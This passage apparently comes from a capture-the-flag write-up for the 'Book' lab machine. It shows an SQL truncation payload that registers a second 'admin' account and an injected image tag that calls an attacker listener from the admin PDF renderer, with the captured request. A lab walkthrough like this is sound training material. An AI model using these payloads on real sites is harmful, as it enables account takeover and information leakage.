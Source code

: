 ```bash
/settings.php (Status: 302) 
/server-status (Status: 403)
```

On the admin login page if inspect the source code we find a js script section with an alert for maximum characters on the name and email field. Less than 10 and 20 respectively. 

## SQLi Truncation

Input is truncated (deleted) when added to the database due to surpassing the maximum defined length. The db mgmt system truncates any newly inserted values to fit the width of the designated column size.

We can test this by singing up with an email with longer than 20 characters (e.g. 30). On the login page we can not use the longer version of the email because it has probably been truncated when it was saved on the db. We can still login but with the truncated version of the original 30 string email. 

This means that if we could trick the db on registering a new user and email under "admin@book.htb" we could be granted access on that restricted admin page. We can send the sing up request to burp and proceed from there.

```r
# to surpass the limit of 20 add whitespaces and URL encode (ctrl+u) them
name=james&email=admin%40book.htb++++++&password=password
```

## Admin Panel

We can find downloadable PDF for Users data and Collection data under the "Collections" tab. These are formatted data such as usernames and emails (Users) and tittle, author and link (Collection).

As the normal we had previously created a collection in the "Collections" tab and injected a html tag string. This string was rendered in the Collection PDF on the admin page. These are injectable fields and as far as we know don't have any length limitation like the username and email field. We can further process this to inject a js payload and execute it on the admin panel.

If we inject a XSS payload as before to read the response header we get a hit. Make a collection as normal user with tittle `<img src="http://attacker/test">` and fill the rest fields. On the admin panel and waiting with listener, we click to view the PDF on the collection. We get a response and a User-Agent we leaked information. 

```bash
Ncat: Connection from 10.10.10.176:60208
GET /test HTTP/1.1
Uset-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
[..]
```

Now we can look for vulnerabilities in PhantomJS version 2.1.1. Searching online we find:

```text
PhantomJS through 2.1.1 has an arbitrary file read vulnerability, as demonstrated by an XMLHttpRequest for a file:// URI. The vulnerability exists in the page.open() function of the webpage module, which loads a specified URL and calls a given callback. An attacker can supply a specially crafted HTML file, as user input, that allows reading arbitrary files on the filesystem. For example, if page.render() is the function callback, this generates a PDF or an image of the targeted file. NOTE: this product is no longer developed.
```
